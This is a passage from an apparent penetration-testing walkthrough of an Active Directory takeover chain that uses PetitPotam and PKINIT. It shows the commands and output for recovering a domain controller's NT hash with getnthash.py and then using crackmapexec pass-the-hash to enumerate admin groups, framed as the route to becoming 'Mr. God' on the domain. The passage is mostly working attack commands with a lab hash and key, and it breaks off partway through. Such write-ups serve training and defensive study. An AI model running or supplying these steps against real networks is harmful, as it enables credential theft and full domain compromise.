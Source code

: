 When successfull, you can continue to use the kerberos ticket and AS-REP key to get the NT hash.

<span style="color:yellow"><i class="fa fa-info-circle"></i></span> 
In this phase, i had some issues and got several errors such as:\
Error Name: KDC_ERR_CLIENT_NOT_TRUSTED Detail: "The client trust failed or is not implemented".\
Root cause in my case was that the root certificate was not properly propagated to the domain controller.\
\
Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)"\
The above error has to do with the smart card logon EKUs. I ran into this issue experimenting with Windows 2008R2 as domain controller.\
There are some words on this error in the link below.
[Authenticating with certificates when PKINIT is not supported](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html "Authenticating with certificates when PKINIT is not supported")
{: .notice--info}

Next, we will use kerberos ticket (out.ccache) and AS-REP key to get the NT hash for the domain controller using the getnthash.py: 
```shell
(pyvirtenv) ┌──(root💀coolhostname)-[~/pyvirtenv]
└─# KRB5CCNAME=out.ccache python3 PKINITtools/getnthash.py victim.com/ADVICTIM2012R2\$ -key fac3a7b493bd2d3a32c7fb959345c11e712ef96db0e46205150cdd57938490ef
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
6584bf06e7b65c680426dd1b21352f01
```
You need the following for the command to work:
- The internal domain name (victim.com)
- The hostname of the DC (ADVICTIM2012R2$) you triggered authentication with using PetitPotam. Don’t forget to escape the $ with a backslash
- The generated AS-REP key you got from gettgtpkinit.py (fac3a7b493bd2d3a32c7fb959345c11e712ef96db0e46205150cdd57938490ef)
- The generated TGT ccache file you got from gettgtpkinit.py (out.ccache)

We are almost there, just three  more commands to become Mr. God on the Active Directory domain.
First, we need to find some domain admin account that we can impersonate using the NT hash above and crackmapexec (installed by default at Kali Linux).

```shell
(pyvirtenv) ┌──(root💀coolhostname)-[~/pyvirtenv]
└─# crackmapexec ldap advictim2012r2.victim.com -u ADVICTIM2012R2\$ -H 6584bf06e7b65c680426dd1b21352f01 --admin-count
SMB         advictim2012r2.victim.com 445    ADVICTIM2012R2   [*] Windows Server 2012 R2 Standard Evaluation 9600 x64 (name:ADVICTIM2012R2) (domain:victim.com) (signing:True) (SMBv1:True)
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   [+] victim.com\ADVICTIM2012R2$:6584bf06e7b65c680426dd1b21352f01
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   Administrator
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   Administrators
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   Print Operators
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   Backup Operators
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   Replicator
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   krbtgt
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   Domain Controllers
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   Schema Admins
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   Enterprise Admins
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   Domain Admins
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   Server Operators
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   Account Operators
LDAP        advictim2012r2.victim.com 389    ADVICTIM2012R2   Read-only Domain Controllers 
```
You need the following for the command to work: